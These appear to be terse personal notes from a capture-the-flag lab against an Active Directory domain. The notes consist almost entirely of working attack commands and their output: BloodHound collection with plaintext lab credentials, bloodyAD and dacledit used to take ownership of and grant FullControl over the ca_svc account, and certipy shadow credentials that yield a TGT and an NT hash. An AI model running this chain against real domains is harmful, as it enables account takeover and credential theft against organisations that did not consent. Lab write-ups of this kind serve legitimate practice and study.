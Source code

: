   
######### Bloodhound anal-sis#########  
Now run .\SharpHound.exe or use bloodhound.py to get it.....  
// keep adding data to the graph  
  
  
bloodhound-python -d sequel.htb -v --zip -c ALL -u ryan -p WqSZAF6CysDQbGb3 -d sequel.htb -dc dc01.sequel.htb -ns ${ip}  
  
  
  
// * may need to chain commands together using ; or redo some ....play around with commands a bit */  
  
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan  
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc  
  
/* must chain commands .....possibly all of the first 3, try what works, its reminiscent of certified, look back at that */  
  
//chain all these 3 together just to be sure...  
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan;dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'  
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc  
/home/kali/.local/bin/dacledit.py:101: SyntaxWarning: invalid escape sequence '\V'  
  
[*]DACL backed up to dacledit-20250111-185257.bak  
[*]DACL modified successfully!  
  
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip ${ip} -ns ${ip} -target dc01.sequel.htb -account ca_svc  
Certipy v4.8.2 - by Oliver Lyak (ly4k)  
  
[*]Targeting user 'ca_svc'  
[*]Generating certificate  
[*]Certificate generated  
[*]Generating Key Credential  
[*]Key Credential generated with DeviceID '7e3f02bf-d49d-73d5-337a-8a5c3fe9503a'  
[*]Adding Key Credential with device ID '7e3f02bf-d49d-73d5-337a-8a5c3fe9503a' to the Key Credentials for 'ca_svc'  
[*]Successfully added Key Credential with device ID '7e3f02bf-d49d-73d5-337a-8a5c3fe9503a' to the Key Credentials for 'ca_svc'  
[*]Authenticating as 'ca_svc' with the certificate  
[*]Using principal: ca_svc@sequel.htb  
[*]Trying to get TGT...  
[*]Got TGT  
[*]Saved credential cache to 'ca_svc.ccache'  
[*]Trying to retrieve NT hash for 'ca_svc'  
[*]Restoring the old Key Credentials for 'ca_svc'  
[*]Successfully restored the old Key Credentials for 'ca_svc'  
[*]NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce  
  
// Now we got a hash and a ccache  
  